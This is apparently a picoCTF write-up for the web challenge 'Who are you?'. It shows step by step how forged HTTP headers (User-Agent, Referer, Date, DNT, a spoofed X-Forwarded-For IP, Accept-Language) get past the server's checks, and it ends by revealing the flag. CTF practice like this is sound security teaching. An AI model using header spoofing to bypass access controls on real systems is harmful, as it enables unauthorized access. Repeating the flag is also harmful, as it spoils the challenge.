






# Who are you?

###### Let me in. Let me iiiiiiinnnnnnnnnnnnnnnnnnnn http://mercury.picoctf.net:52362/

Let's try to visit the site



Ok, so probably we need to change the HTTP GET request, we can do this using [Burp Suite CE](https://portswigger.net/burp)

Let's change the `User-Agent` and send the request

```
GET / HTTP/1.1
Host: mercury.picoctf.net:52362
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: PicoBrowser
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: it-IT,it;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close
```



We can set the `Referer` with the same host address

```
GET / HTTP/1.1
Host: mercury.picoctf.net:52362
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: PicoBrowser
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: it-IT,it;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close
Referer: mercury.picoctf.net:52362
```



Now it's the turn of `Date`

```
GET / HTTP/1.1
Host: mercury.picoctf.net:52362
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: PicoBrowser
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: it-IT,it;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close
Referer: mercury.picoctf.net:52362
Date: Wed, 21 Oct 2018 07:28:00 GMT
```



Time to add `DNT (Do Not Track)`

```
GET / HTTP/1.1
Host: mercury.picoctf.net:52362
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: PicoBrowser
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: it-IT,it;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close
Referer: mercury.picoctf.net:52362
Date: Wed, 21 Oct 2018 07:28:00 GMT
DNT: 1
```



This time it's more difficult, `Accept-Language` and` Content-Language` didn't work. so maybe we need to set our IP to be a Sweden one, we can do this using `X-Forwarded-For` and some random Swedish IP

```
GET / HTTP/1.1
Host: mercury.picoctf.net:52362
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: PicoBrowser
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,/;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: it-IT,it;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close
Referer: mercury.picoctf.net:52362
Date: Wed, 21 Oct 2018 07:28:00 GMT
DNT: 1
X-Forwarded-For: 2.16.66.1
```


Ok, now it's time to change `Accept-Language`

```
GET / HTTP/1.1
Host: mercury.picoctf.net:52362
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: PicoBrowser
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,/;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: sv-SE,sv;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close
Referer: mercury.picoctf.net:52362
Date: Wed, 21 Oct 2018 07:28:00 GMT
DNT: 1
X-Forwarded-For: 2.16.66.1
```

And here is the flag



#### **FLAG >>** `picoCTF{http_h34d3rs_v3ry_c0Ol_much_w0w_0c0db339}`